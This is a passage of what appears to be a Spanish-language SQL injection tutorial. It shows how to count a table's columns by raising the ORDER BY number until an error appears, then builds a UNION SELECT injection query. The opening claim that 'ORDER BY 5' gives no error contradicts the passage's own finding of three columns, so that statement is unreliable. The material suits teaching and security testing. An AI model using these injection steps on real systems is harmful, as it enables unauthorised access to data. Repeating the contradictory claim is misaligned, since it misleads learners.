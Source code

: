             `SELECT id,nombre,precio FROM articulos WHERE id=1 ORDER BY 5`

            Por lo que la consulta NO arrojara un error, ya que le número de columnas es menor que el del total de columnas de la tabla.

        2. Continuaremos incrementando el número seguido del `ORDER BY` en la consulta hasta que la base de datos generare un error, ejemplo:

            **Intento 2:**

            `1 ORDER BY 2` - Sin error

            **Intento 3:**

            `1 ORDER BY 3` - Sin error

            **Intento 4:**

            `1 ORDER BY 4` - Error: `Unknown column '4' in 'order clause'`

            Con esto podemos deducir que el numero de columnas es 3, ahora podemos usar esta información para construir la consulta final:

            `SELECT id,nombre,precio FROM articulos where id=1 UNION SELECT 1,2,3`

### Obteniendo Información ... (Esperalo pronto)